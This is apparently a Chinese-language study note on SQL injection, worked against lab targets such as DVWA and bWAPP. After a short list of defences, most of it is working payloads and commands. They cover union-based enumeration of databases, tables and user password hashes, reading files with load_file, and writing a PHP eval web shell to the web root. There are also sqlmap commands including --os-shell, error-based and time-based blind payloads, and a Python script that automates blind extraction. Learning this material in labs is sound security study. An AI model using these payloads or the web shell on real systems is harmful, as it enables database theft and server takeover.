


# Sql Inject

[databases](../cyber/WebApplication.md#database)

[SQL Injection](../security/webpentesting.md#sql-injection)

[Advanced SQL Injection](../webapp/InjectionAttacks.md#advanced-sql-injection)

SQL注入漏洞主要形成的原因是在数据交互中，前端的数据传入到后台处理时，没有做严格的判断，导致其传入的“数据”拼接到SQL语句中后，被当作SQL语句的一部分执行。 从而导致数据库受损（被脱裤、被删除、甚至整个服务器权限沦陷）。
在构建代码时，一般会从如下几个方面的策略来防止SQL注入漏洞：

1. 对传进SQL语句里面的变量进行过滤，不允许危险字符传入；
2. 使用参数化（Parameterized Query 或 Parameterized Statement）；
3. 还有就是,目前有很多ORM框架会自动使用参数化解决注入问题,但其也提供了"拼接"的方式,所以使用时需要慎重!

## common

**注释**
```sql
#
```
`或者打空格`
```sql
--+ 
```
<span style="font-size: 23px;">**payload**</span>

`where id = '$id'`
```sql
' or '1' = '1
```
```sql
' or 1=1 #
```

**URL encoding**

`1' OR 1=1 -- `   →   `1%27%20||%201=1%20--+`   →   `1%27%20%7C%7C%201%3D1%20%2D%2D+`

- `%27` is the URL encoding for the single quote (').
- `%20` is the URL encoding for a space ( ).
- `||` represents the SQL OR operator. `%7C%7C` is the URL encoding for `||`. 
- `%3D` is the URL encoding for the equals sign (=).
- `%2D%2D` is the URL encoding for --, which starts a comment in SQL.
- `+` add a space after the comment, ensuring that the comment is properly terminated and there are no syntax issues.

[ASCII](../linux/encoding.md#ascii)

**判断是否为注入点**

`where id = '$id'`
```sql
1' and '1'='1
```
```sql
1' and 1=1 #
```
**判断查询字段数目**

```sql
1' order by 3 #
```

**确定回显字段**

```sql
1' union select 1,2,3 limit 1,1 #
```

```sql
' union select 1,2,3 #
```
## union注入

**union联合查询**
- 可以一次性执行两个或多个查询，并将它们的结果组合在一起输出。
- 所有查询中的**列数必须相同**，以第一个查询为准。

[information_schema元数据库](../cyber/WebApplication.md#information-schema)

*查询当前操作数据库对应的信息*
```sql
1' union select 1,user(),database(),version(),group_concat(table_name),6,7 from information_schema.tables where table_schema = database() #
```

*查询数据库*
```sql
' union select 1,group_concat(schema_name) from information_schema.schemata #
```
*查询当前操作的数据库*
```sql
' union select 1,database() #
```
*查询指定数据库的表*
```sql
' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa' #
```
*查询指定表的字段*
```sql
' union select 1,group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' #
```
*查看数据*
```sql
' union select 1,group_concat(username,':',password SEPARATOR '<br>') from dvwa.users #
```
<span style="font-size: 23px;">**通过SQL注入向靶机中读取写入**</span>

[通过MySQL读写文件](../cyber/WebApplication.md#通过mysql读写文件)

*读取*
```bash
' union select 1,load_file('/flag.txt'),3 #
```

*写入*
- 必须要保证mysql用户对指定目录具有写入权限
- 文件路径必须用绝对路径
```bash
' union select 1,"<?php @eval($_REQUEST['pass']);?>",3 into outfile '/var/www/html/uploads/shell.php' #
```
---

## sqlmap

[sqlmap](../security/offensivetools.md#sqlmap)

自动化注入工具sqlmap
- sqlmap利用Python开发，运行sqlmap需要有Python环境，推荐在Kali中使用。

注释符 `--+`
- 注释符 `#` 在URL中需要编码为 `%23`
- 在URL中通常使用 `--+` 来代替`#`，`+`是空格的URL编码。

<span style="font-size: 23px;">**基本用法**</span>

```bash
# 检测注入点
sqlmap -u "http://xxx?id=1"

# 查询所有数据库
sqlmap -u "http://xxx?id=1" --dbs
available databases [4]:
[*] information_schema
[*] mysql
[*] note
[*] performance_schema

# 查询当前操作的数据库
sqlmap -u "http://xxx?id=1" --current-db
current database: 'note'

# 查询指定数据库的表 -D 数据库名
sqlmap -u "http://xxx?id=1" --tables -D note
[2 tables]
+-------+
| fl4g  |
| notes |
+-------+

# 查询指定表的字段 -T 表名
sqlmap -u "http://xxx?id=1" --columns -T fl4g -D note
+---------+-------------+
| Column  | Type        |
+---------+-------------+
| fllllag | varchar(40) |
+---------+-------------+

# 导出数据 --dump ; -C 字段名
sqlmap -u "http://xxx?id=1" --dump -C fllllag -T fl4g -D note
+---------------------------------+
| fllllag                         |
+---------------------------------+
| n1book{union_select_is_so_cool} |
+---------------------------------+
```

**可选操作**

```bash
# 判断当前用户是否为数据库管理员
sqlmap -u "http://xxx?id=1" --is-dba
current user is DBA: True

# 获取当前用户
sqlmap -u "http://xxx?id=1" --current-user
current user: 'root@localhost'
```
---

<span style="font-size: 23px;">**sqlmap指定User-Agent**</span>

通过指定User-Agent绕过服务器限制
- `-A` **AGENT** 指定User-Agent
- `--random-agent` 使用随机User-Agent
- `--mobile` Imitate(模仿) smartphone through HTTP User-Agent header

```bash
sqlmap -u "http://xxx" --random-agent
```
<span style="font-size: 23px;">**sqlmap加载cookie**</span>

- 通过`--cookie`=COOKIE 选项加载**cookie**，可以用于需要身份验证情况下的注入。

[cookie](../cyber/web.md#cookies)

```bash
sqlmap -u "http://xxx" --cookie="COOKIE"
```
---

<span style="font-size: 23px;">**post型注入**</span>

- 通过`--data`选项指定post方法传递的数据

```bash
sqlmap -u "http://xxx/index.php" --data="id=1"
```
- 通过`-r`选项加载HTTP请求文件，用`-p`选项指定要检测的参数。

```bash
sqlmap -r "post.txt" -p "id"
```
---

<span style="font-size: 23px;">**通过sqlmap获取Shel**</span>

- 需要知道网站的主目录，且有一个具有 **写** 权限的目录

```bash
sqlmap -r "post.txt" --os-shell
```
---

## In-Band

[In-Band SQLi](../security/webpentesting.md#in-band-sqli)

### Error-Based

MySQL 的报错注入主要是利用 MySQL 的一些逻辑漏洞，如 BigInt 大数溢出等，由此可以将 MySQL 报错注入主要分为以下几类：

1. BigInt 等数据类型溢出
2. XPath 语法错误
3. `count()` + `rand()` + `group_by()` 导致重复
4. 空洞数据类型函数错误

很多函数会导致 MySQL 报错并显示数据：

1. `floor` 函数；
2. `extractvalue` 函数；(最多32字符)
3. `updatxml` 函数；
4. `exp()` 函数；

<span style="font-size: 19px;">**floor、rand(0)和group by**</span>



```sql
select count(*),concat((select user()), floor(rand(0)*2)) x from information_schema.TABLES group by x
```

<span style="font-size: 19px;">**extractvalue**</span>

```sql
select extractvalue(1, concat(0x7e, (select @@version)));
```
*payload*
```bash
?id=1' and extractvalue(1, concat(0x7e, (select @@version))) -- '
```
- `0x7e` 代表` ~`：`concat(0x7e, (select @@version))` 会将波浪号 `~` 和数据库版本信息连接在一起（例如：`~5.7.26`）。
- `extractvalue()` 函数的作用是从 XML 中提取数据，它的第二个参数必须是符合 **XPath** 语法格式的路径。
- **制造非法路径**：由于路径以波浪号 `~` 开头，不符合 **XPath** 的语法规范，数据库会因为**语法错误**而抛出异常。
- **获取敏感信息**：数据库在报错时，会将这个不合法的路径（连同我们拼接进去的 `@@version` 版本信息）直接显示在错误信息中。例如：`1105 - XPATH syntax error: '~5.7.26'`

<span style="font-size: 19px;">**updatxml**</span>

```sql
select updatexml(1,concat(0x7e,(SELECT @@version)),1);
```
`1105 - XPATH syntax error: '~5.7.26'`

*payload*
```bash
?id=2' and updatexml(1,concat(0x7e,(SELECT @@version)),1) -- '
```


- `updatexml(xml_target, xpath_expression, new_xml)` 这是一个 **MySQL** 用于修改 **XML** 数据的内置函数。它接收三个参数：
  - `xml_target`：目标 **XML** 内容或文档。
  - `xpath_expression`：用于定位要修改的 **XML** 节点的 **XPath** 路径。
  - `new_xml`：替换后的新 **XML** 内容。

<span style="font-size: 19px;">**exp()**</span>

```sql
select exp(~(select * from (select database())x));
```
`DOUBLE value is out of range in ...`


**`exp()` 双精度溢出报错**

* **`exp(x)` 函数**：该函数用于计算自然对数底数 $e$ 的 $x$ 次方（即 $e^x$）。
* **溢出条件**：在计算机中，双精度浮点数能表示的最大值是有限的。在 MySQL 中，当 `exp()` 的参数 $x$ 大于约 `709.78` 时，计算结果就会超出双精度浮点数的最大范围，从而触发 **"Double value out of range"（双精度数值超出范围）** 的溢出错误。
* **信息回显**：在 **MySQL 5.5.x** 等较早版本中，当 `exp()` 发生溢出报错时，数据库会将导致溢出的查询结果作为错误信息的一部分返回给客户端。

<span style="font-size: 19px;">**实战**</span>

靶机：**DVWA** SQL Injection

```bash
' and extractvalue(1, concat(0x7e, (select database()))) -- 
```
XPATH syntax error: '~dvwa'

```bash
' and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='dvwa' ))) --  
```
XPATH syntax error: '~guestbook,users'

```bash
' and extractvalue(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 4,1 ))) --  
```
XPATH syntax error: '~password'

```bash
' and extractvalue(1, mid(concat(0x7e, (select password from dvwa.users limit 0,1)),1,29)) -- 
```
XPATH syntax error: '~5f4dcc3b5aa765d61d8327deb882'
- `mid()` 函数：**字符串截取**，`MID(str, start, length)`

---

## Blind

[Blind SQLi](../security/webpentesting.md#inferential-blind-sqli)

### Time-Based

<span style="font-size: 19px;">**时间盲注常用函数**</span>



**靶场bWAPP: SQL Injection - Blind - Time-Based**
```javascript
# 慢(true)
World War Z' and length(database())>3 and sleep(2) --  

# 快(false)
World War Z' and length(database())>5 and sleep(2) --  

# 慢(true)
World War Z' and length(database())>4 and sleep(2) --  

# 慢(true)
World War Z' and length(database())=5 and sleep(2) -- 
```

```javascript
# 快(false)
World War Z' and substr(database(),1,1)='a' and sleep(2) -- 

# 慢(true) 说明第一个字符是b
World War Z' and substr(database(),1,1)='b' and sleep(2) -- 
World War Z' and ascii(substr(database(),1,1))=98 and sleep(2) -- 
...
# 慢(true) 说明前两个字符是bW
World War Z' and substr(database(),1,2)='bW' and sleep(2) -- 
World War Z' and ascii(substr(database(),2,1))=87 and sleep(2) -- 
...
```

<span style="font-size: 19px;">**时间盲注 自动化代码**</span>

```python
#!/usr/bin/python
#coding:utf-8

import requests
import time

#ip地址和登录payload
ip_port='127.0.0.1:80'
data={
    "login":"fairy",
    "password":"123qwe",
    "security_level":"0",
    "form":"submit"
}
#通过requests库 构建会话并维持登录状态
urlLogin="http://%s/login.php"%ip_port
session=requests.session()
resp=session.post(urlLogin, data)

#获取数据库名称长度
num=0
for i in range(1,21):
    url="http://%s/sqli_15.php?title=World War Z' and length(database())=%d and sleep(2) -- &action=search"%(ip_port, i)
    startTime = time.time()
    rsp = session.get(url)
    endTime = time.time()
    ga = endTime - startTime
    if ga > 1:
        print("length of database name is %d"%i)
        print("startTime", startTime)
        print("endTime", endTime)
        num = i
        break

#获取数据库名字
l = []
for j in range(1, num+1):
    for k in range(33, 128):
        url="http://%s/sqli_15.php?title=World War Z' and ascii(substr(database(),%d,1))=%d and sleep(2) -- &action=search"%(ip_port, j, k)
        startTime = time.time()
        rsp = session.get(url)
        endTime = time.time()
        ga = endTime - startTime
        if ga > 1:
            print(f'第{j}个字符：{chr(k)}')
            l.append(chr(k))
            break
print("name of database is ", ''.join(l))
```
